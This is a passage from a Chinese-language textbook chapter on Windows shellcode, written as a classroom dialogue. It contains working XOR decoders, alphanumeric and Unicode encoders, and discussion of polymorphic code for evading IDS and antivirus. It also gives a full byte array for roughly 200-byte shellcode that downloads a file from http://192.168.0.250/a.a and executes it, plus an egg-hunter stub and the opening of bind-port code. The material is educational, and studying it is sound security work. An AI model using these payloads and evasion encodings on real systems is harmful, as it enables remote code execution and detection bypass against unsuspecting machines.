“得到 decode 的机器码后，我们把 enShellcode 跟在后面就可以了。”老师指着程序说道。

“唔，理解起来还是有点困难啊！”同学们面带难色。

“嗯，我们一起来过一遍吧，首先定位 enShellcode 的位置。”

```asm
jmp decode_end

decode_start:
    pop edx
    ...

decode_end:
    call decode_start
```

“哦，明白，先 jmp 到编码了的 Shellcode 的前方，然后 call decode_start，这样后面 enShellcode 的地址就会入栈，而在 decode_start 处，马上 pop edx，就把 enShellcode 的地址赋给 edx 了，这样 edx 就是 enShellcode 的地址了，这和字符串的构造是一样的。”

“是的，这是动态定位地址的方法，在很多地方都会使用。”老师说道，“我们继续往下看。”

```asm
decode_loop:
    xor byte ptr [edx+ecx], 0x97    // 因为编码时用的Key是0x97，所以解码也要一样
    loop decode_loop                // 循环解码
```

“xor byte ptr [edx+ecx], 0x97 就是对 enShellcode 解码——异或 0x97。而 loop decode_loop 是一个循环，功能是 ecx 减一，如果 ecx 不为 0 就跳到 decode_loop 继续执行。这样我们就可以解码 ecx 这么多个字节，这里 ecx 赋成的是 0x201——500 多个字节，一般的 Shellcode 都应该够了，当然也可以加得更长点。”

“看来解码的关键就是这里啊！”

“是的，最后 jmp decode_ok 是跳转到复原的 Shellcode 中执行，这样就完成了 decode 的功能。”

“哦，明白喽！”

“好了，大家清楚了流程和思路，那我们提取出 decode 的机器码吧！”

“好的，最后得到 decode 的代码为。”

```c
decode[] =
"\xEB\x10\x5A\x4A\x33\xC9\x66\xB9\x01\x02"
"\x80\x34\x0A\x97\xE2\xFA\xEB\x05\xE8\xEB\xFF\xFF\xFF";
```

“我们用开窗口的代码测试一下吧，大家应该很熟悉了，原来的 Shellcode 如下。”

```c
unsigned char Shellcode[] =
// 可不是Shellcode，开 DOS 窗口
"\x55\x8B\xEC\x33\xC0\x50\x50\x50\xC6\x45\xF4\x4D\xC6\x45\xF5\x53"
"\xC6\x45\xF6\x56\xC6\x45\xF7\x43\xC6\x45\xF8\x52\xC6\x45\xF9\x54\xC6\x45\xFA\x2E\xC6"
"\x45\xFB\x44\xC6\x45\xFC\x4C\xC6\x45\xFD\x4C\xBA"
"\xCF\x05\xE7\x77" // LoadLibraryA sp4上地址为 77e705cfh
"\x52\x8D\x45\xF4\x50\xFF\xD0"
"\x55\x8B\xEC\x33\xEC\x20\xB8\x63\x6F\x6D\x6D\x89\x45\xE4\xB8\x63\x6D\x64\x2E"
"\x89\x45\xF8\xB8\x63\x6F\x6D\x22\x89\x45\xFC\x33\xD2\x89\x55\xFF\x8D\x45\xF4"
"\x50\xB8"
"\xBF\x8E\x01\x78" // system sp4上地址为 78018ebfh
"\xFF\xD0" // call eax
"\x83\xC4\x24\x5D"; // 平衡堆栈
```

“我们先对 Shellcode 进行编码，异或 0x97。程序为 xorCMD.cpp。xorCMD.cpp 还会自动生成规则的格式，执行后的效果如图 6-23 所示。”

“把打印出的代码粘贴下来，得到编码后的 enShellcode 如下。”

```c
enShellcode[] =
"\xc2\x1c\x7b\xa4\x57\xc7\xc1\xc2\x51\xd2"
"\x63\xda\x51\xd2\x62\xc4\x51\xd2\x61\xd4"
"\x51\xd2\x60\xc1\x51\xd2\x6f\xc5\x51\xd2"
"\x6e\xc3\x51\xd2\x6b\xb9\x51\xd2\x6c\xd3"
"\x51\xd2\xdb\xdb\x2d\x58\x92\x70\xe0\xc5"
"\x1a\xd2\x63\xc7\xc1\x2f\xf6\xf9\xfa\xfa"
"\x1e\xd2\x6f\x2f\xf4\xf3\xb9\x1e\xd2\x63"
"\xc7\x2f\x28\x19\x96\xef\x68\x47\x14\x53"
"\x85\xca";
```

图 6-23

“再把我们提取出的 decode 放在前面，就 OK 了！我们把它合起来，就是这样的！”

```c
AllShellcode[] =
/* 先是 decode */
"\xEB\x10\x5A\x4A\x33\xC9\x66\xB9\x01\x02"
"\x80\x34\x0A\x97\xE2\xFA\xEB\x05\xE8\xEB"
"\xFF\xFF\xFF"
/* 后面跟 enShellcode */
"\xc2\x1c\x7b\xa4\x57\xc7\xc1\xc2\x51\xd2"
"\x63\xda\x51\xd2\x62\xc4\x51\xd2\x61\xd4"
"\x51\xd2\x60\xc1\x51\xd2\x6f\xc5\x51\xd2"
"\x6e\xc3\x51\xd2\x6b\xb9\x51\xd2\x6c\xd3"
"\x51\xd2\xdb\xdb\x2d\x58\x92\x70\xe0\xc5"
"\x1a\xd2\x63\xc7\xc1\x2f\xf6\xf9\xfa\xfa"
"\x1e\xd2\x6f\x2f\xf4\xf3\xb9\x1e\xd2\x63"
"\xc7\x2f\x28\x19\x96\xef\x68\x47\x14\x53"
"\x85\xca";
```

图 6-24

“我们来验证一下 Shellcode 的功能吧。”老师说道，“用 ((void(*)(void))&AllShellcode)(); 强行转换为函数来调用，或者 lea eax, AllShellcode; jmp eax 也行。这样就得到 xorAll.cpp。来执行看看。”

“好哩，编译，执行，如图 6-24。”

“哈哈，成功了！这是编码后的不带 00 字节的 Shellcode 啊。”

“嗯，Xor 大法是最早使用，同时也是现在最常见的编码方法。”老师总结道，“它最大的好处是编码和解码都比较简单，而且也可以避开一定的字符，比如 ASCII 为 0 的字符，用 Xor 方法经过编码后就会变成其它的值，从而避免被截断。该方法也有一定适应性，比如 Shellcode 里有 0x97，异或 Key=0x97，正好变为非法的 0。我们还可以尝试改变 Key 的值，直到完全合法为止。”

“嗯，是啊。”大家都领会到了。

“当然，这种方法的缺点也很明显，当限制字符较多或限制字符是一个较大的范围时，很有可能找不到合适的 Key 来符合限制要求。这种情况下，我们就需要用其它变换算法来实现编码和解码了。”

### 6.2.3 全数字字母的 Shellcode

“其实，编码的原理都是类似，就是找一个保证代码可以复原的算法，对 Shellcode 进行编码变换，然后在编码后的 Shellcode 前加上解码算法的代码就可以了。除了主流的异或大法，还可以采用的一些简单算法有：

- 拆分法，就是把 Shellcode 的每个字符 Z，拆分成几个数字的和。比如拆成两个，就是 Z = A + B。像 0x77，就可以拆成 0x77 = 0x01 + 0x76 = 0x02 + 0x75 …… = 0x38 + 0x3F。

老师喝了口气，继续说道：“因为和的组合方式有很多种，像 0x77 就有 56 种组合，而我们只选一种出来，所以又避免了大量 ASCII 字符的可能性。这样除了 decode 外，可以有多种变形，对一些 IDS 或杀毒软件都有一定的效果。另一种方法是直接替换法，就是将 Shellcode 的每一个字符 Shellcode[i] 先和 Key 作异或得到 temp，如果合法就直接将 temp 保存在 enShellcode[i] 中，如果不合法则将 enShellcode[i] 存为‘0’，而把 enShellcode[i+1] 存为 temp + ‘0’。清楚了编码的方法后，解码的思想也很容易理解。解码就是判断 enShellcode 的每个字符，如果不是‘0’，就直接异或 Key 恢复回去；如果是‘0’，就把后面的那个字符减去‘0’再异或 Key，这样就可以恢复以前的 Shellcode 了。大家可以模仿异或法，写出上面两种方法的编码 C 代码和汇编解码代码。”老师最后鼓励小菜道，“明白了算法，实现是很简单的事情。但两个非常有用的 Shellcode 需要详细提一下，就是全数字字母的 Shellcode 和 Unicode 的 Shellcode。全数字字母的 Shellcode 非常有用，可以隐藏在有特定需求的输入数据中，比如 Web 服务器、FTP 服务器、邮件服务器中。我们要编写全数字字母的 Shellcode，一种方法是把 Shellcode 的指令全部用对应的数字字母指令来替换，比如 inc eax 是 0x48，就是 H；inc ecx 是 0x41，就是 A 等。如果我们的 Shellcode 都采用这些指令来完成，我们的目的就达到了。但这需要将一个正常的指令变来变去，想方设法地由数字字母指令来实现，过程太麻烦了，而且一旦 Shellcode 功能需要修改，又得重新变来变去，过程十分烦人。因此，我们还是采用编码的方法：将 Shellcode 编码为数字字母的字符，然后在最前面加上一段解码代码——当然这段解码代码也都是数字字母形式的。我们用 HST 提出的方法：base16 编码。编码算法为：SC[i] xor B = 58H * A。A、B 只要为数字字母即可，而解码算法为：SC[i] = (58H * A) xor B。对于一个 SC[i]，可能有多种编码方式都可以满足，我们只要找到第一组满足的 A、B 就可以了。我们用数字‘0’作为编码后 Shellcode 的结尾标志，因此 A、B 的值的尝试都从‘1’开始。对每个 Shellcode 字符 SC[i]，用一个字母数字 B xor SC[i]，看某个字母数字 A 做的 A*58H 能否生成”## 第六章 Shellcode 编程基础

一样的数。如果可以，就将 SC[i] 作为 AB 编码。编码的代码如下。

```c
int main()
{
    int nLen;
    int A, B;
    unsigned int t1, t2;
    bool bFind;

    nLen = strlen((char *)RealShellcode);  // RealShellcode 的长度
    for (i = 0; i < nLen; i++)   // 对每个 SC[i]
    {
        bFind = false;
        for (A = 0x31; A < 0x7B; A++)   // 从 1 开始尝试 A
        {
            // A 非字符，跳过
            if ((A > 0x39 && A < 0x41) || (A > 0x5A && A < 0x61))
                continue;

            t1 = A * 0x58;
            t1 = t1 & 0xFF;   // 计算 A * 0x58 的中间值

            for (B = 0x31; B < 0x7B; B++)  // 从 1 开始尝试 B
            {
                if ((B > 0x39 && B < 0x41) || (B > 0x5A && B < 0x61))
                    continue;

                t2 = RealShellcode[i] ^ B;
                t2 = t2 & 0xFF;   // 计算 B ^ SC[i] 的中间值
                if (t1 == t2)   // 如果 t1=t2，就将 SC[i] 编码为 AB
                {
                    printf("%c%c", A, B);
                    bFind = true;
                    break;
                }
            }

            if (bFind)   // SC[i] 已经编码，跳出尝试
                break;
        }
    }

    printf("\n");
    return 0;
}
```


“我们测试一下，对开 DOS 窗口的代码做这样的编码，其结果如图 6-25 所示。”

“看，编码后的 Shellcode 成为了下面这串数字和字母，我们在最后放置了两个 0 作为结束标志。”

```text
I2e1S148s3H5h5h5h3N2u6d6u3N2u6e2c3N2u6f2f3N2u6g2s3N2u3p2b3N2u3q2d3N2u3r8n3N2u3s2t
N3N2u3t5t3N2u3u5t1b3G253o2G2b1U2u6d5h3w2e3x2e1S144o148l4X2S5W5U5U1Q2u6d4X2Q5V2T8n
I1Q2u3p4X2S5W5UB1Q2u3t8s3Z1P2e3v1U2u6d5h4X1g1V212H3w3X4c3L8F2m0()
```

“果然全部成了数字和字母啊。”小菜们说道。

“对，而我们的解码代码如下，做（58H * A）xor B，一直解码到两个 0 的标志位为止。我们是从 1 开始编码的，因此编码后的 Shellcode 中是绝对不会有 0 这个字符的。”

```asm
00421A30 50              push    eax
00421A31 5A              pop     edx
00421A32 68 67 75 61 69  push    69617567h
00421A37 58              pop     eax
00421A38 35 67 75 61 69  xor     eax,69617567h
00421A3D 48              dec     eax
00421A3E 34 43           xor     al,43h
00421A40 30 42 36        xor     byte ptr [edx+36h],al
00421A43 52              push    edx
00421A44 59              pop     ecx
00421A45 6B 41 37 58     imul    eax,dword ptr [ecx+37h],58h
00421A49 41              inc     ecx
00421A4A 33 41 37        xor     eax,dword ptr [ecx+37h]
00421A4D 41              inc     ecx
00421A4E 32 42 37        xor     al, byte ptr [edx+37h]
00421A51 30 42 37        xor     byte ptr [edx+37h], al
00421A54 42              inc     edx
00421A55 68 54 57 55 51  push    51555754h
00421A5A 58              pop     eax
00421A5B 35 54 57 55 51  xor     eax, 51555754h
00421A60 34 30           xor     al, 30h
00421A62 38 42 37        cmp     byte ptr [edx+37h], al
00421A65 75 62           jne     short sc+99h (00421AC9)
```

“提取出的解码 Shellcode 就为：**PZhguaiX5guaiH4C0B6RYkA7XA3A7A2B70B7BhTWUQX5TWU04Q8A7ub**。也全部是数字和字母。我们把它们合起来测试一下。”

```c
unsigned char sc[] =
"PZhguaiX5guaiH4C0B6RYkA7XA3A7A2B70B7BhTWUQX5TWU04Q8A7ub"
"..."
```

“测试成功！这可是全数字字母的 Shellcode 哦，如图 6-26。”

“哦，编码就是用某种算法使其改变以符合标准，再精心构造解码头，让其复原，只要解码头也符合标准就可以了！”小菜们记下了总结。

“是的，就是这样。问题的关键就是解码头一些特殊问题所需要的特殊编码算法。我们再看看 Unicode 的编码吧。”


### 6.2.4 Unicode 的 Shellcode

“打造 Unicode 的 Shellcode 还是同样的思路，用某种算法对 Shellcode 进行编码，然后精心构造合法的解码字符，对其进行解码。yuange 在他的文章中提出的办法如下。”

- 1. 把 real Shellcode 编码成小于 0x80 的字符，这样在经过转换后就成为 `\xXX\x00`，字符不会被改变。
- 2. 再精心编写一段符合编码范围的代码，用这些代码来解码上述经过编码的 real Shellcode！

“yuange 提出的具体算法是编码时把 Shellcode 的字符 0xXY，变成 0x0X 和 0x0Y，这样一定可以符合小于 0x80 的要求，而在解码中用 0xA*0x10+0xB=0xAB 的算法来恢复。而解码的代码，是 yuange 精心打造的，全部符合简体中文编码范围要求的 CPU 指令。大家看看吧。”

```text
"%u5309%u6b5e%u66ad%u993d%u7560%u56f8%u5b56%u6b5f"
"%u66ab%u4e3d%u7400%u9023%u612c%u5099%u6599%u90ad"
"%u612c%u548d%u7088%u548d%u908a%u548d%u708a%u548d"
"%u908a%u5852%u74aa%u75d8%u90d6%u5058%u5050%u90c3"
"%u6099"
```

“我们先把 Shellcode 用 yuange 的算法进行编码，实现的算法就是。”

```c
unsigned char Shellcode[] =
"\x81\xF4\xE2";
unsigned char EnShellcode[200];
int main()
{
    int i, nLen;
    unsigned char temp;
    nLen = sizeof(Shellcode) - 1;   // Shellcode 长度
    for (i = 0; i < nLen; i++)
    {
        temp = Shellcode[i];
        EnShellcode[2*i] = temp / 0x10;
        EnShellcode[2*i+1] = temp % 0x10;   // 把 0xAB 拆分为 0xA、0xB 并保存
    }
}
```

“把 Shellcode 编码成为符合要求的 EnShellcode 后，在 EnShellcode 前面放上解码的代码 DeCode，DeCode 把 EnShellcode 解码还原成真正的 Shellcode，并跳过去执行！”

### 6.2.5 多态 Shellcode 简介

“各种各样的编码可真有意思啊。”小菜们感叹道，“这从侧面折射出了黑客们突破枷锁，向往自由的精神。”

“是的，而最高层次的、绕过 IDS 的编码技术，是每次都改变自身的多态 Shellcode。”

“多态？”

“没有固定形态的东西被称为多态，而多态 Shellcode 就是没有固定形态、每次都改变自身代码形态的 Shellcode 了。大家可以从编码的过程中发现，只要编码选择的 Key 不同，编码后的 Shellcode 是不会相同的。”

“嗯，是的！”大家点点头，“那改变 Key 就可以生成多态 Shellcode 吗？”

“当然不是，虽然编码后的 Shellcode 体不一样，但前面的那段解码代码每次都还是一样的，所以还不能算是完全的多态。因此要生成多态 Shellcode，需要每次都生成不一样的解码段，以及用不同 Key 编码 Shellcode，才能算成是多态。要在解码段的改变上下功夫，可以加入一些无用的代码、颠倒指令等方法生成，有兴趣的同学可以看 Phrack 的文章，这里就不再深入了。”老师最后补充道，“值得一提的是，在 Shellcode 中加入无用的代码，可以构造出符合正常流量字符串概率的攻击流，从而绕过异常检测组件。”

## 6.3 高级 Shellcode 编写

“Shellcode 的一些基本方法解决了，从现在开始我们更深入讨论一些 Shellcode 的高级编写技术。”老师说道，“比如优化代码长度，利用 C 语言直接生成 Shellcode，以及复用 Socket 突破防火墙。”

### 6.3.1 200 字节的通用 Shellcode

“Shellcode 在保持对各个版本通用性的基础上当然是越短越好，这不仅仅是黑客艺术对简单美的追求，更重要的是有时候能利用的空间只有这么少，比如 tftp 那个漏洞，只能有 210 字节左右。而网上常见的 Shellcode 有 ‘382 bytes bind port Shellcode for win2k all ver’ 和 ‘359 bytes connect back Shellcode for win2k all ver’，都超过了 350 字节，是远远不够用的。所以，我们要自己想办法打造最短的 Shellcode。要使得 Shellcode 的长度小，调用的函数必须少，但也要保持功能的实用性，所以我们考虑下载文件并执行文件的功能。这样更多的功能可以在文件中实现、扩展。要实现该功能，只需要调用 URLDownloadToFile 和 WinExec 两个函数。URLDownloadToFile 的使用方法是 **URLDownloadToFile(NULL, "http://192.168.0.250/a.a", "c:\\a.a", NULL, NULL)**，就是将 http://192.168.0.250 的 a.a 下载到 c 盘下，并命名为 a.a。例子程序如下。”

```c
#include <stdio.h>
#include <windows.h>
#include <urlmon.h>
#pragma comment(lib, "urlmon")
int main()
{
    LoadLibrary("urlmon");
    URLDownloadToFile(NULL, "http://192.168.0.250/a.a", "c:\\a.a", NULL, NULL);
    WinExec("c:\\a.a", 0);
    return 0;
}
```


图 6-27

“该程序完成从 192.168.0.250 电脑上下载 a.a，另存为 c:\a.a 并且执行的功能，其效果如图 6-27。”

“a.a 的功能是弹出一个对话框。我们的下载代码非常简单，可以保证简短的长度，而且额外的功能可以在下载的文件里进行完美的扩充，所以我们选择这样功能的 Shellcode 并尽量压缩其代码长度。实用的 Shellcode 的基本要求有：不能有特殊的字符（比如 0x00 或会被应用替换的特殊字符）和能实现版本的通用性（即不同的 Windows 系统和 SP 条件都能执行），在满足了这两个要求后，再加上需完成的目标功能。我们可以大概估计一下满足这些基本要求后的代码长度：对于要求 1，不能有特殊的字符，就需要对原文 Shellcode 进行编码，并在最开头加上一段解码代码；对于采取异或编码方式的情况，解码代码的长度至少需要 21 字节（后面可具体看到）。对于要求 2，实现各版本的通用性，就需要动态获得目标机上的函数地址，再调用该地址，就可以保证在不同的系统都能正确地执行 Shellcode 了。动态获得目标机上的函数地址分为两步：获得 Kernel32.dll 的地址和目标函数的地址。第一部分若采用 PEB 信息获得 Kernel32.dll 地址，其代码长度为 22 字节，这个大家都是知道的了，也是比较优的；第二部分获取目标函数的地址，我们之前是用 GetProcAddress 的方法，这样每个函数名的长度都已经很长了，所以必须要进行改进。好了，首先是解码段的实现，解码段是很标准的实现，在 VC 中内嵌汇编实现如下，加有详细的注释。”

```asm
__asm
jmp DYNAMICGETADD
DECODEBEGIN:
    pop ebx
    dec ebx
    xor ecx, ecx
    mov cl, 0F1h
DECODE:
    xor byte ptr [ebx+ecx], 88h
    loop DECODE
    jmp ENCODEDSEG
DYNAMICGETADD:
    call DECODEBEGIN
ENCODEDSEG
```

“一般情况下，该解码算法需要 23 个字节，这里只需要 21 个字节的原因是由于 Shellcode 短小，长度在 0xFF 即 255 以内，原本需要赋给 ecx 的这里只需要赋给 cl，从而可以节省两字节。在此时，真是一字节值千金啊。然后是函数地址的动态获得，先利用 PEB 结构获得 kernel32.dll 的地址，然后找到 GetProcAddress 函数的地址，通过它找到其它函数的地址。但大家想过没有，既然我们可以获得 GetProcAddress 函数的地址，那么当然可以用同样的方法获得所有函数的地址啊！”老师问道。

“是啊，GetProcAddress 从 Kernel32.dll 的输出表中搜索，那 send 那些套接字函数从 Wsz_32.dll 的输出表中搜索就 OK 了啊！”

“对的，URLDownloadToFile 和 WinExec 也可以从对应的 DLL 输出表中找到，而且我们可以在比较函数时再加入 Hash 的思想，进一步缩短查找的代码。”

#### 小知识：Hash

直接音译为“哈希”，也叫做“散列”。就是把任意长度的输入，通过散列算法，变换成固定长度的输出，该输出就是散列值。这种转换是一种压缩映射，散列值的空间通常远小于输入的空间，不同的输入可能会散列成相同的输出，而不可能从散列值来唯一地确定输入值。

其数学表达为：h = H(M)。其中 H()——单向散列函数，M——任意长度明文，h——固定长度散列值。H() 要满足第一单向性，第二是抗冲突性，第三是映射分布均匀性和差分布均匀性，而 MD5 和 SHA1 可以说是目前应用最广泛的 Hash 算法。

“我们在查找函数名的时候不必用真正的函数名来比较，可以设计一个 Hash，只要保证所有函数的 Hash 值不同，那么我们就可以用 Hash 值来代替函数名进行查找。”

“哦！使用 Hash 值比用名称有什么好处呢？”

“Hash 值是定长的，我们就可以把 Hash 值放在一个像 eax 寄存器中，直接进行比较。就不用考虑函数名称的长度不同，而且可以大大缩短代码的长度。我们再看一个通过 Hash 法查找所有函数地址再调用的例子吧。采用如下的 Hash 公式：（字符[0] 循环右移 13 位 + 字符[1]）循环右移 13 位…… + 最后一个字符。再用 _emit 定义出相关的 Hash 值如下。”

```asm
HashCODE:
    call BEGIN
    emit 0x8E    // LoadLibraryA 的 Hash 值
    emit 0x4E
    emit 0x0E
    emit 0x26
    emit 0x98    // WinExec 的 Hash 值
    emit 0xFE
    emit 0x8A
    emit 0x0E
    emit 0x36    // URLDownloadToFileA 的 Hash 值
    emit 0x1A
    emit 0x2F
    emit 0x70
    emit 'h'     // 下载地址字符串
    emit 't'
    emit 't'
    emit 'p'
    emit ...
```

## 第六章 Shellcode编程基础

```asm
_emit '/'
_emit '1'
_emit '9'
_emit '2'
_emit '.'
_emit '1'
_emit '6'
_emit '8'
_emit '.'
_emit '0'
_emit '.'
_emit '2'
_emit '5'
_emit '0'
_emit '/'
_emit 'a'
_emit '.'
_emit 'a'
_emit '\0'
```

“有了 Hash 值后，这些使用比较函数名的 Hash 值的方法，从导出表中找到各个函数的地址。”

```asm
FINDFUNADDRSUB:  ; 通过函数名Hash值得到函数地址的子程序
    push    ecx
    push    esi
    mov     esi, dword ptr [ebp+3Ch]      ; esi = PE header offset
    mov     esi, dword ptr [esi+ebp+78h]  ; exports directory offset
    add     esi, ebp                      ; exports directory table
    push    esi
    mov     esi, dword ptr [esi+20h]
    add     esi, ebp                      ; esi = name pointers table
    xor     ecx, ecx
    dec     ecx
NEXTFUNNAME:
    inc     ecx
    lodsd                                 ; 循环比较各个函数名
    add     eax, ebp
    xor     ebx, ebx
NEXTCH:
    movsx   edx, byte ptr [eax]
    cmp     dl, dh                        ; 为函数名结束字符0x00
    je      COMPAREHASHVALUE              ; 就跳出比较Hash值是否相等
    ror     ebx, 0Dh                      ; 计算Hash值
    add     ebx, edx                      ; Hash函数ror ebx, 0dh, add ebx, edx
    inc     eax
    jmp     NEXTCH
COMPAREHASHVALUE:
    cmp     ebx, dword ptr [edi]          ; 比较Hash是否相等
    jne     NEXTFUNNAME                   ; 不等则比较下一个函数
    pop     esi                           ; Hash相等，找到需要的函数名
    mov     ebx, dword ptr [esi+1Ch]
    add     ebx, ebp                      ; ebx = address pointers table
    mov     eax, dword ptr [ebx+ecx*4]    ; 这里直接将ecx作为索引了
    add     eax, ebp                      ; eax 指向函数的地址了
    stosd                                 ; 将找到的函数地址存到edi指向的位置中
    pop     esi
    pop     ecx
    ret                                   ; 返回
```

“大家注意，这里比一般的查找程序又省了一点。通常程序找到函数名后会通过下标在索引表中找其索引值，但我们发现，在一般情况下下标和索引值是相同的，所以我们直接使用下标作为索引值，避免了索引值的查找过程，从而又节省了一点代码长度。好了，最后就是功能完成的主流程，其实就是完成查找函数地址和调用的功能，非常简单。”

```asm
    push    2
    pop     ecx
FINDADDR:
    call    FINDFUNADDRSUB        ; 查找LoadLibrary和WinExec函数地址
    loop    FINDADDR
    push    6E6Fh
    push    6D6C7275h             ; urlmon
    push    esp
    call    dword ptr [esi]       ; 执行LoadLibrary(urlmon)
```


“提取出来的 Shellcode 如下，加入框架测试一下。”

```c
unsigned char Shellcode[] =
"\xe9\x88\x00\x00\x00\x5f\x64\xa1\x30\x00\x00\x00\x8b\x40\x0c\x8b\x70\x1c\xad\x8b\x68"
"\x08\x8b\x7f\x1a\x02\x59\xe8\x31\x00\x00\x00\xe2\xf9\x68\x67\x6e\x00\x00\x68\x75\x72"
"\x6c\x6d\x54\xff\x16\x8b\xe8\xe8\x1b\x00\x00\x00\x68\x2e\x61\x00\x00\x68\x63\x3a\x5c"
"\x61\x54\x5b\x33\xc0\x50\x50\x53\x57\x50\xff\x56\x04\x51\x56\x8b\xf6\x50\x53\xff\x56"
"\x75\x3c\x8b\x74\x2e\x78\x03\xf5\x56\x8b\x76\x20\x03\xf5\x33\xc9\x49\x41\xad\x03\xc5"
"\x33\xdb\x0f\xbe\x10\x3a\xd6\x74\x08\xc1\xcb\x0d\x03\xda\x40\xeb\xf1\x3b\x1f\x75\xe7"
"\x5e\x8b\x5e\x1c\x03\xdd\x8b\x04\x8b\x03\xc5\xab\x5d\x59\xe0\xe8\x73\xff\xff\xff\xe8"
"\x4e\x0e\xec\x98\xfe\x8a\x0e\x36\x1a\x2f\x68\x74\x74\x70\x3a\x2f\x2f\x31\x39\x32\x2e"
"\x31\x36\x38\x2e\x30\x2e\x32\x35\x30\x2f\x61\x2e\x61\x00";

int main()
{
    ((void(*)())&Shellcode)();
    return 0;
}
```


“成功下载下了我们的目标文件并执行，如图6-28。”

“我们再编下码，将解码头放在前，紧跟编码后的 Shellcode。这样就成功生成了总长度为204字节的 Shellcode，满足了我们的要求。由于测试的文件下载地址是 `http://192.168.0.250/a.a`，保存的本地文件为 `c:/a.a`，因此可以作进一步的改进。比如本地文件名为 `c:/a`，或者省略路径直接为 `a`，还可以申请一个短一点的域名，都可以轻易地缩短 Shellcode 长度到200以内。”

“哇，200字节。”

“是的，200以内的 Shellcode 可以说是一个质变，在很多特殊情况下非常有用的。这一点就留给大家去完成吧，编写 Shellcode 的乐趣也就在这里了！”


### 6.3.2 搜索 Shellcode

“突破有长度限制的漏洞，一般有三种解决思路。一种方法是找比较短的 Shellcode，就像我们的200字节 Shellcode；另一种方法就是只做一个短的搜索 Shellcode 的代码，真正的 Shellcode 放在内存其它的地方；第三种方法是发送分段的 Shellcode。刚才已经讨论了第一种方法，我们继续看第二种方法。”

“咦？搜索 Shellcode？”

“溢出后，直接运行的是搜索 Shellcode 的代码，其功能是在内存中查找真正的 Shellcode，查找到后就跳过去执行。因为搜索代码一般可以很短，所以能满足长度限制的要求。”

“搜索代码？”同学们觉得又有新知识可学了，“如何完成搜索的呢？”

“一般说来，搜索从某个接近 Shellcode 的地址开始，依次查找，当找到某个预定标志的时候，就说明找到了我们的 Shellcode 了。我们用图来理解一下，在内存中 A 表示垃圾字符，Ret 表示或者 Jmp esp，或者 Jmp ebx，反正功能是要跳转到后面的 Search 中，然后 F 为标志，最后是 Shellcode。Search 功能就是要进入到原来的 Shellcode 中。原始的发送和目标程序处理截断后的数据，如图6-29。”

“在上图中，A 和 A' 无所谓，只是起填充作用；Ret 和 Search 一定要符合规范，不能被改变；F 和 F' 一定要不一样，如果一样就无法区分原始 Shellcode 和截断后的数据的位置。而 Shellcode 和 Shellcode' 是不一样的，一样的话，我们就不用花这么大的力气去写一个符合规范的 Search 和跳转了。我们看看 Search 的代码该如何写。假设标志 F 为 `www08`，即 `0x77773038`，而且从 esp 开始搜索，则搜索的汇编码如下。”

```asm
{
    __asm
    {
        mov ebx, esp            // 从esp开始搜索
        mov eax, 0x77773037     // eax = ww07
        inc eax                 // 刚才是ww07，加1变成ww08，免得搜索成自己
loop1:
        inc ebx
        cmp [ebx], eax          // 比较是否是ww08
        jne loop1
        inc ebx
        inc ebx
        inc ebx
        inc ebx
        call ebx                // 找到ww08标志，跳过去执行
    }
}
```


“大家注意，先把 eax 赋成 ww07，然后 eax 加1，才得到 ww08。这是为了避免搜索成了 Search 代码自己。”

“哦，是啊。如果直接 `mov eax, 0x77773038`，那搜索经过这里，会被认为是标志的！”

“非常正确！我们只要在 Shellcode 前加上一个 ww08 的标志，就会找到标志后，跳到该位置执行了。”

“这个搜索代码可真够短的啊。”小菜说道，“一般的漏洞应该都够用了。”

## 6.3.3 用C直接生成Shellcode

“现在我们有一个生成 Shellcode 的方便方法——直接利用 C 语言写程序，然后自动地提取打印出 Shellcode 来。”

“直接用 C 来写？”小菜们问道。

“说全部用 C 语言来写也不大准确。”老师说道，“应该是说 Shellcode 部分由汇编和 C 混合编程。汇编部分主要是完成动态定位函数地址，而 C 语言部分是完成程序的功能流程。而整个程序就是围绕让编译器为我们生成二进制代码，然后在运行时编码、打印，这样就完成了一个模板。大家想一下我们写突破防火墙 Shellcode 的过程，其实编译器生成的代码是会帮我们压入正确的参数，只要调用的函数地址是真正的入口地址，编译器生成的汇编就是完全正确的汇编。所以，我们只要在之前帮程序找到每个函数真正的地址，然后在调用时直接 call 函数地址，这样编译器生成的代码是我们可以直接作为 Shellcode 的代码。我们直接将其打印出来就可以使用了。详细解释一下混合编程的整个结构以及流程思路吧。混合编程里有4个函数：Shellcodes 函数、DecryptSc 函数、PrintSc 函数和 main 函数。在 Shellcodes 函数里生成完成功能的 Shellcode，采用的是汇编和 C 混合编程。”老师说道，“首先是汇编部分，就是动态获得每个要使用函数的地址；然后用 C，来直接调用函数，完成想要功能。DecryptSc 函数，是生成解码代码 decode 的部分；PrintSc 函数，直接把合好的 Shellcode，按16进制数的形式打印出来。而 main 函数，就是把各个部分组织起来，以自动化地生成 Shellcode 并打印出来。具体来说，main 函数里面，先定义要查找的函数名和所在的模块；然后保存 DecryptSc 函数生成的 decode 部分；再把 Shellcodes 函数生成的代码进行编码，粘贴在 decode 后面；最后调用 PrintSc 函数，把最终完成的 Shellcode 打印出来，其流程如图6-30。”

“其它几个函数都好理解，关键就是 Shellcodes 函数代码部分的生成。Shellcodes 函数分为两大部分，动态获得函数地址就不说了，我们刚才学的几种方法都是可以的；而高级语言调用函数的部分，hume 采用的是枚举的方法执行。函数名称数组和枚举数组中对应，增加 API 时只要在相应的 .dll 后增加函数名称项，并同步更新 Enum 的索引。调用 API 时直接使用：`API[_APINAME](param,.....param);` 即可。”

```c
API(_MessageBeep)(0x10);
API(_MessageBoxA)(0, testAddr, 0, 0x40);
API(_ExitProcess)(0);
```

“由此可见，用 C 编写 Shellcode 需要对代码生成及 C 编译器行为有更多了解。有些地方处理起来也不是很省力。不过一旦模板写成，以后写起来或写复杂 Shellcode 就省力多了。”

“我们来测试一下吧！”大家跃跃欲试。

“程序参看 GetShellcodeByC.c。大家注意，需要对工程正确地配置，才能达到效果。”老师提醒道，“我们要选择 Release 版编译，并去掉优化选项。”

“优化？如何去掉呢？”

“我们打开菜单下的‘工程->设置’对话框，在 C/C++ 页下，删除掉 `/O2` 项，如图6-31。”


“点 OK，设置完毕。我们运行，就能够弹出测试对话框，并且得到打印好的 Shellcode，如图6-32所示。”

“哇！好方便啊。有了这个模板之后，就太简单了！”

“关于这个，我们再来举个实际的例子——用该模板生成绑定端口的 Shellcode。首先，绑定端口的 C 源代码如下。”

```c
// 管道程序pipe0.cpp如下。
#include <winsock2.h>
#include <stdio.h>
#pragma comment(lib,"ws2_32")
int main()
{
    WSADATA ws;
    SOCKET listenFD;
    int ret;
    // 初始化wsa
    WSAStartup(MAKEWORD(2,2), &ws);
    // 注意要用WSASocket
    listenFD = WSASocket(AF_INET, SOCK_STREAM,
